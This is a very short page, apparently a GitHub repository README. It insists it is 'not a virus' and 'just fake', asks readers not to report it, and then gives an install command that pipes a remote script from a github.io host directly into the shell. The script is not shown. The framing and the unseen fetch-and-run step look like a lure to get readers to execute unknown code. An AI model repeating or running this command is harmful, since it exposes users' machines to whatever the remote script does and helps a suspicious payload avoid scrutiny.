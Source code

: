 # This is not a virus!
It won't do anything to your computer. Its just fake. Please don't report me!
Command to install repository for Linux (Ubuntu/Debain) and vscode: curl -fsSL http://winstonalt.github.io/install.sh | sh
